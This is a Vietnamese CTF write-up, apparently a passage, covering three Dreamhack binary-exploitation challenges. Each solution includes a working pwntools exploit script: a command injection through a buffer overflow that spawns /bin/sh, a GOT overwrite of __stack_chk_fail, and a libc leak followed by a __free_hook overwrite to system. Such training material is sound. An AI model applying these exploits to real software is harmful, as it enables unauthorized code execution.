- Phân tích thì hàm `strncmp` so sánh `cmd_ip` với `ipconfig`. Hàm `strncmp` sẽ so sánh đến khi 1 trong 2 gặp null terminator hoặc sâu cmd_ip khác với `ipconfig` 8 chữ cái đầu. Do đó ta sẽ lợi dụng buffer overflow để overwrite `cmd_ip` thành sâu gồm `ipconfig` + lệnh để lấy shell.
- Script: 
```python
from pwn import *
p = remote("host3.dreamhack.games",15401)
#p = process("./cmd_center")
payload = b'A'*32+b'ifconfig || /bin/sh\x00'
p.sendafter(b'Center name: ',payload)
p.interactive()
```
</details>

<details>
<summary>ssp_000 </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow và code cho ta gán địa chỉ bất kỳ. Còn có hàm `get_shell` cho ta shell
    
![](https://i.imgur.com/AgJK0xU.png)

- Checksec thì thấy canary bật , NO PIE
    
![](https://i.imgur.com/lPS5Btj.png)


- Phân tích thì nếu bị buffer overflow canary thì code sẽ gọi `stack_chk_fail`. Do đó nếu ta lợi dụng bof để gọi `stack_chk_fail` và dùng lỗi ghi địa chỉ kia để overwrite got `stack_chk_fail` thành `get_shell` thì ta sẽ có được shell
- Script : 
```python
from pwn import *
exe = ELF("ssp_000")
p= remote("host2.dreamhack.games",8718)
#p=process(exe.path)
p.sendline(b'a'*0x80)
p.sendlineafter(b'Addr : ',str(exe.got['__stack_chk_fail']))
p.sendlineafter(b'Value : ',str(exe.sym['get_shell']))
p.interactive()
```
</details>

<details>
<summary>fho </summary>
	
- Đề cho ta 1 file source, file binary,file libc
    
- Đọc code thì thấy có lỗi bof cho ta leak stack,ngoài ra còn có phép gán địa chỉ bất kỳ.
    
![](https://i.imgur.com/uA4un6V.png)

- Checksec thì thấy full giáp
    
![](https://i.imgur.com/9osTwMz.png)

- Ý tưởng hiện tại là leak libc -> write `free` thành `system` -> nhập add là đc `/bin/sh` để lấy shell
- Đầu tiên là leak libc. Ở đây mình sẽ leak `__libc_start_call_main`. Các bước để leak thì làm như bình thường.

![](https://i.imgur.com/H5UEpm5.png)

- Leak xong thì overwrite `free` thành `system`. Để overwrite `free` thì ta cần ghi vào địa chỉ của `__free_hook` vì ở đây chứa địa chỉ thực thi của `free`. Cuối cùng thì lấy ``/bin/sh trong libc.
- Script:
```python
from pwn import *
exe = ELF("fho_patched")
libc= ELF("libc.so.6")
#p=process(exe.path)
p=remote("host3.dreamhack.games",14797)
p.sendlineafter(b'Buf: ',b'a'*72)
p.recvuntil(b'a'*72)
leak = u64(p.recv(6) + b'\x00\x00')
libc.address = leak - 137994
print(hex(libc.address))
p.sendlineafter(b'To write: ', str(libc.sym['__free_hook']))
p.sendlineafter(b'With: ', str(libc.sym['system']))
p.sendlineafter(b'To free: ', str(next(libc.search(b'/bin/sh'))))
p.interactive()
```
</details>
